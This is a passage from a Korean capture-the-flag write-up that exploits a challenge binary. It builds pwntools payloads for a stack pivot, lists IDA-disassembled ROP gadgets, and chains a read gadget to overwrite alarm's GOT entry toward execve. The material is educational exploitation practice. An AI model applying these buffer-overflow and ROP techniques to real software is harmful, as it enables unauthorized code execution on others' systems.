 ```
```
따라서 payload를 다음과 같이 작성하였다.
``` python
    # fgets(0x4047a0, 0x74, stdin)
    payload = b"A" * 0x60
    payload += p64(0x404800)                # rbp = 0x404800
    payload += p64(0x401196)                # middle of fgets
    payload += b"\x00\x00\x00"              # dummy
    
    s.send(payload)
    sleep(0.5)
```

### Return Oriented Programming
이제 payload를 이용해서 쉘을 띄우면 되는데, `pop` 가젯이 많지 않았는데, IDA로 확인해보니 쓸만한 가젯은 삭제하고 다음 네 가젯을 이용한 문제 해결을 의도한 것 같았다.
```
# mov rdi, rsi gadget
.text:0000000000401156                 push    rbp
.text:0000000000401157                 mov     rbp, rsp
.text:000000000040115A                 mov     rdi, rsi
.text:000000000040115D                 retn

# pop rbp gadget
.text:000000000040115F                 pop     rbp
.text:0000000000401160                 retn

# pop rsi gadget
.text:0000000000401161                 push    rbp
.text:0000000000401162                 mov     rbp, rsp
.text:0000000000401165                 pop     rsi
.text:0000000000401166                 retn

# read(0, buf, 8) gadget
.text:000000000040116A                 push    rbp
.text:000000000040116B                 mov     rbp, rsp
.text:000000000040116E                 sub     rsp, 10h
.text:0000000000401172                 lea     rax, [rbp-8h]
.text:0000000000401176                 mov     edx, 8          ; nbytes
.text:000000000040117B                 mov     rsi, rax        ; buf
.text:000000000040117E                 mov     edi, 0          ; fd
.text:0000000000401183                 call    _read
.text:0000000000401188                 xor     rdx, rdx
.text:000000000040118B                 xor     rax, rax
.text:000000000040118E                 retn
```
특이하게 `read` 가젯이 있었는데, `fgets`와 비슷하게 `rbp` 값에서 `8`을 뺀 값이 `rax`를 통해 `rsi`로 전달된다.

`rbp`는 `pop rbp` 가젯을 이용하여 자유롭게 값을 설정할 수 있으니 `lea rax, [rbp-8h]` instruction을 감안해서 입력받을 주소에 `8`을 더해서 `rbp` 값을 설정하면 된다.

이 때 설정해둔 `rsp` 값을 변경시키지 않기 위해 `read` 가젯의 중간인 `0x401172` 주소로 바로 뛰도록 payload를 구성했다.
``` python
    # read(0, alarm.got, 8) ; alarm.got = 0x404008
    # rdi = 0, rsi = alarm.got, rdx = 8
    payload = p64(elf.got['alarm'] + 8)     # alarm.got + 8
    payload += p64(0x401172)                # middle of read
```
여기에서 `alarm`의 GOT에 값을 쓰기로 했는데, libc를 leak하기 위한 출력 함수가 하나도 없기 때문에 `execve`와 가장 가까운 함수를 찾아 partial overwrite를 하기 위함이다.
